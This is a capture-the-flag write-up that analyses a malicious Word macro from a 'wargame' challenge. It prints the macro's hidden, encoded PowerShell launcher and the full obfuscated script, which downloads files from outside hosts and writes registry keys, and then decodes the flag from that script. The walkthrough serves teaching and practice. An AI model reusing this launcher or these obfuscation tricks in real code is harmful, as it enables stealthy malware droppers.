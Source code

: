 # **S1mple Obfusc4tion**

```
The flag has 2 parts. Part 2 has been encode and saved somewhere. Can you find it?

Download file: https://drive.google.com/file/d/1ZmWZiTTqL62wjZvhgcZabrt59W-Mq7uQ/view?usp=sharing
Password: wargame
```

Extract the given compressed file with the given password, we will have a .doc file. I must turn off my anti virus program because it kept deleting my file LMAO. 

Open it up and we see a macro. I had done a lot of research about macro in .doc file then I found [this](https://www.decalage.info/vba_tools).

So we will use a tool call `olevba`. We have something like this.

~picture~

I found a malicious content in the macro:

```
uxZIlRCaHe = "Powershell.exe -WindowStyle Hidden -nop -ENCOD JABFAGcAUgBJADkAYgBqAGg...cgBdADMANgApACAAfAAgAGkAZQB4AH0AOwANAAoA"
```
There's a lot of it so that I can't show you guys all sorry :'(

Look likes it was powershell commands but was encoded with base64, so I put it to `cyberchef` to decode it and here is what I found. Very interesting:

~picture~

```powershell
$EgRI9bjh5S = ('New-Tem' + 'p' + 'orar' + 'yFile')|& ( $pshOme[4] + $psHOmE[34] + 'X');
$GLHNe0URoh = (100, 71, 104, 108, 73, 72, 82, 104, 97);
$GF8UYpawBX = ((("{4}{3}{2}{6}{5}{1}{0}"  -f 'llName', 'h5S.Fu', 'R', 'g', 'tP7E', 'j', 'I9b'))   -rePLACe 'tP7', [CHaR]36)|& ((get-VArIABLe '*mDr*').NaME[3, 11, 2] -jOIN'');
$GLHNe0URoh += (87, 119, 103, 98, 50, 89, 103, 100, 71, 104, 108, 73, 71, 90, 115, 89, 87);
$GLHNe0URoh += (99, 103, 79, 105, 74, 102, 97, 72, 86, 122, 100, 71, 119, 122, 88, 51, 73, 122, 89, 87, 120, 102, 97, 71, 70);
$Eg4w85M9Qi = (('trS' + 'Wxrked ' + 'sx hca' + 'd' + 'rd' + ', fx' + 'r' + 'gxt' + ' hx' + 'w tx v' + 'cadcca' + 'dtix' + 'n!' + '!' + '!!tr' + 'S.Re' + 'P' + 'lAc' + 'E(trSxtr' + 'S,' + 'trS0trS).' + 'R' + 'e' + 'PlAcE(t' + 'r' + 'S' + 'ca' + 'dt' + 'rS,tr' + 'Sat' + 'rS' + ')')   -repLaCE 'trS', [CHAr]39) | . ((varIaBle '*mdr*').namE[3, 11, 2] -jOin'');
$GLHNe0URoh += (121, 90, 72, 48, 105);
$sEpb5puTtV = (('{4}{0}{3}{5}{1}{7}{2}{6}' -f 'nVerT]:', 'HNe', 'h', ':toBaSE6', '[System.Co', '4STRINg(jD8GL', ')', '0URo')).rePLACe(([chAR]106 + [chAR]68 + [chAR]56), [strIng][chAR]36) |& ((VArIaBLe '*MDR*').nAME[3, 11, 2] -jOin'');
echo $sEpb5puTtV | .('{2}{1}{0}'  -f 'ile', 'ut-f', 'o') ${GF8UYpawBX};
$azfcfToiBq = ("{1}{4}{8}{7}{2}{5}{6}{9}{3}{0}"  -f 'ion', 'Welc', '_Warga', 'cat', 'om', 'me!', 'S1mple', 'o', 'e_t', '_Obfu');
$cOP2lgqRhb = 'Xgf{jgn{tgz|{c<Pg;}k';
$cOP2lgqRhb.("{1}{2}{0}"  -f 'ay', 'tocha', 'rarr').invoke() | .("{2}{1}{0}{3}"  -f'-', 'ach', 'fore', 'object')   -Process { $rEianMEKgy += [char]([byte][char]$_  -bxor 0xf) };
$C4Lg8xccWH = 'https:][(s)]w][(s)]wwhitehat.com][(s)]ww1zw][(s)]w$https:][(s)]w][(s)]wwargame.com][(s)]wthuchanh'.repLAcE((']' + '[' + ('(s)]' + 'w')), ([array]('/'), ('xw' + 'e'))[0]).sPlIT('$');
$mAMq5ixXLi = 0;
try {
    foreach($JJU1E8IktL  in $C4Lg8xccWH) {
        (New - Object System.Net.WebClient).DownloadFile($JJU1E8IktL, 'C:\Users\Whitehat')
    }

} catch [System.Net.WebException], [System.IO.IOException] {
    ("{9}{3}{7}{0}{10}{8}{2}{5}{11}{6}{4}{1}"  -f 'on', 'ist!!!', ' or Fil', 'nne', 'ex', 'e does ', 't ', 'cti', 'ailed!!!', 'Co', ' F', 'no');
    $mAMq5ixXLi = 1
};
(('New' + '-Item -Path ' + '{0' + '}HK' + 'C' + 'U:{0}' + ' ' + '-' + 'Name ' + '{0}whit' + 'eha' + 't{0}') -F  [char]34)| iex;
if ($mAMq5ixXLi   -gt 0)  {
    (('New' + '-' + 'I' + 'temProperty' + ' -Pat' + 'h I9' + 'KHKCU:1' + 'Lewhitehat' + 'I9' + 'K -Nam' + 'e I9' + 'Kwarga' + 'meI9K -Va' + 'lue Nzvazf' + 'c' + 'fToiBq' + ' -PropertyType I9KStri' + 'ngI9K').RePlACe('I9K', [sTrIng][Char]34).RePlACe(([Char]49 + [Char]76 + [Char]101), [sTrIng][Char]92).RePlACe(([Char]78 + [Char]122 + [Char]118), '$'))| iex
} else {
    PS C:\Users\my_ant_ti3m > ((("{4}{9}{0}{13}{7}{3}{1}{10}{8}{6}{16}{12}{11}{2}{15}{5}{14}"  - f'roperty -P', 'CU:rBQwh', 'o', 'lX1HK', 'New-It', 'e lX1', 'lX1wargamelX1 ', 'h ', ' ', 'emP', 'itehatlX1 -Name', '-Pr', ' ', 'at', 'StringlX1', 'pertyTyp', '-Value 8qarEianMEKgy '))   - rEpLACe ([ChAr]108 + [ChAr]88 + [ChAr]49), [ChAr]34  - rEpLACe([ChAr]114 + [ChAr]66 + [ChAr]81), [ChAr]92   - crepLacE([ChAr]56 + [ChAr]113 + [ChAr]97), [ChAr]36) | iex
};
```
I used Base64 decode, text decode with UTF-16LE and code tidy. So I noticed that `$GLHNe0URoh` was a variable which was added some ASCII to it. Using `dcode`, I had this: `dGhlIHRhaWwgb2YgdGhlIGZsYWcgOiJfaHVzdGwzX3IzYWxfaGFyZH0i`. Then base64 again:

~picture~

It was just the end of the flag, I must find the head in those code. I had tried many variables, but `$rEianMEKgy` gave me this

~picture~

## FLAG: Whitehat{hustl3_h4rd_hustl3_r3al_hard}

